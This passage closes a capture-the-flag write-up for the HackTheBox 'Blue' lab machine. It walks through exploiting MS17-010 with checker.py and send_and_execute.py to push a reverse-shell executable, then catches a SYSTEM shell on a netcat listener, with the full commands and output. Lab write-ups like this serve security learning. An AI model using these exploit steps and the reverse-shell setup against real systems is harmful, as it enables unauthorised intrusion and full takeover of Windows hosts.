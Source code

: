Running the `checker.py` script with the `guest` username provides some different results.

```none
/opt/perpetual_melancholy/MS17-010 # python checker.py 10.10.10.40
Trying to connect to 10.10.10.40:445
Target OS: Windows 7 Professional 7601 Service Pack 1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_OBJECT_NAME_NOT_FOUND
samr: Ok (64 bit)
netlogon: Ok (Bind context 1 rejected: provider_rejection; abstract_syntax_not_supported (this usually means the interface isn't listening on the given endpoint))
lsarpc: Ok (64 bit)
browser: Ok (64 bit)
```

These are better results. The `send_and_receive.py` script also needs to be edited to operate correctly. Once again, added the `guest` username to the script.

```none
python send_and_execute.py 10.10.10.40 rev.exe
```

Success! Got a callback on the netcat listener, and Administrator access!

```none
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.40] 49176
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Done!

## Lessons Learned

- Docker is great for Python 2 code!
- Even in easy boxes, enumeration helps, like the `guest` account in this box

## Useful Resources

- [HackTheBox - Blue by ippsec](https://www.youtube.com/watch?v=YRsfX6DW10E)
- [HTB: Blue by 0xdf](https://0xdf.gitlab.io/2021/05/11/htb-blue.html)
